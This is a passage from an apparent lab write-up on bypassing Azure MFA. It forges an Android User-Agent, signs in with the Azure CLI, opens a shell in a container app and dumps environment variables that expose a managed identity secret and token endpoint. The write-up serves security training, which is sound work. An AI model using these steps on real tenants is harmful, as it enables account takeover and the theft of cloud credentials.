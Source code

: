 Use one of the Android User-Agents from this [script](https://github.com/f-bader/TokenTacticsV2/blob/main/modules/Get-ForgedUserAgent.ps1) and modify User-Agent in all subsequent requests and send them. 

![](bypass-azure-mfa-with-evilginx-12.png)

It worked, we successfully authenticate.
```
└─$ az account show            
{
  "environmentName": "AzureCloud",
  "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
  "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
  "isDefault": true,
  "managedByTenants": [],
  "name": "Microsoft Azure Sponsorship",
  "state": "Enabled",
  "tenantDefaultDomain": "megabigtech.com",
  "tenantDisplayName": "Default Directory",
  "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
  "user": {
    "name": "Sunita.Williams@megabigtech.com",
    "type": "user"
  }
}

```
> We can also use browser extensions, which change User-Agent. Thus when authenticating with AZ CLI, browser will automatically have set User-Agent
{: .prompt-info }

Let's get shell in the container
```
└─$ az containerapp exec --name project-oakley --resource-group mbt-rg-14
INFO: Connecting to the container 'project-oakley'...
Use ctrl + D to exit.
INFO: Successfully connected to container: 'project-oakley'. [ Revision: 'project-oakley--uamwltf', Replica: 'project-oakley--uamwltf-57dbf58464-4ft24'].
sh-5.1# 
```

If a managed identity has been configured then the `IDENTITY_HEADER` and `IDENTITY_ENDPOINT` environment variables will be set. These environment variables allow the application to request a token as the managed identity
```
sh-5.1# env
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
MSI_SECRET=6a295260-82aa-4fd7-95fe-00c7d014e84c
PWD=/app
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://100.100.224.1:443
IDENTITY_HEADER=6a295260-82aa-4fd7-95fe-00c7d014e84c
IDENTITY_ENDPOINT=http://localhost:12356/msi/token
CONTAINER_APP_HOSTNAME=project-oakley--uamwltf.redcliff-740f233d.eastus.azurecontainerapps.io
CONTAINER_APP_NAME=project-oakley
SHLVL=1
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=100.100.224.1
CONTAINER_APP_REPLICA_NAME=project-oakley--uamwltf-57dbf58464-4ft24
KUBERNETES_SERVICE_HOST=100.100.224.1
KUBERNETES_PORT=tcp://100.100.224.1:443
CONTAINER_APP_ENV_DNS_SUFFIX=redcliff-740f233d.eastus.azurecontainerapps.io
KUBERNETES_PORT_443_TCP_PORT=443
CONTAINER_APP_PORT=23040
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```